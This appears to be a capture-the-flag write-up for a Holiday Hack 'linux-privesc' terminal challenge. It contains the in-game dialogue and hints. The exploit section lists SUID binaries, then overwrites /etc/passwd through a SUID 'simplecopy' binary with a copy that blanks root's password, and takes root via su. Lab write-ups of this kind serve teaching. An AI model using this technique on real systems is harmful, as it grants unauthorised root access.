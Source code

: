 # linux-privesc <img src="../img/tree-red.png" alt="drawing" width="20"/><img src="../img/tree-red.png" alt="drawing" width="20"/><img src="../img/tree-red.png" alt="drawing" width="20"/><img src="../img/tree-outline.png" alt="drawing" width="20"/><img src="../img/tree-outline.png" alt="drawing" width="20"/>

## Objective
Rose mold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

## Conversations

Rose Mold

Initial conversation:

- What am I doing in this saloon? The better question is: what planet are you from?
- Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.
- Whatever. Do you know much about privilege escalation techniques on Linux?
- You're asking why? How about I'll tell you why after you help me.
- And you might have to use that big brain of yours to get creative, bub.

After solving challengs:

- Yup, I knew you knew. You just have that vibe.
- To answer your question of why from earlier... Nunya!
- But, I will tell you something better, about some information I... found.
- There's a hidden, uncharted area somewhere along the coast of this island, and there may be more around the other islands.
- The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.
- That's all I got. K byyeeeee.
- Ugh... n00bs...

## Hints

- Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.
- There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.

## Useful AI Prompts

## Approach
For this approach, I first went through the normal Linux survey commands upon connection. Nothing really stood out, so I began looking for exploits related to the Linux distro which is Linux 3a7ac2253603 5.10.0-26-cloud-amd64.
Looking for exploits, there were some viable ones, but they would have taken some work. I spent some time reviewing [this](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/). I then pivoted to looking for a way to exploit SUID executables,
and found the following:

```console
elf@408ce566d9d0:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```

At first, I went down some rabbit holes trying to think of a way to exploit one of those executables, so I went on to other challenges. I then had an epiphany - what if I grabbed the /etc/passwd file, copied it, modified the copied version so root doesn't use /etc/shadow/ and then used simplecopy to copy it back to /etc/passwd? (SMH) 

Exploit:
```console
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *

elf@ff34bc1d8894:~$ pwd
/home/elf
elf@ff34bc1d8894:~$ ls
HELP
elf@ff34bc1d8894:~$ cp /etc/passwd passwdcopy
elf@ff34bc1d8894:~$ sed -i 's;root:x:0:0:root:/root:/bin/bash;root::0:0:root:/root:/bin/bash;g' passwdcopy
elf@ff34bc1d8894:~$ /usr/bin/simplecopy passwdcopy /etc/passwd
elf@ff34bc1d8894:~$ su
root@ff34bc1d8894:/home/elf# cd /root
root@ff34bc1d8894:~# ls
runmetoanswer
root@ff34bc1d8894:~# ./runmetoanswer 
Who delivers Christmas presents?

> 
```

When you execute runmetoanswer, your answer is case sensitive :)

## Alternate approach
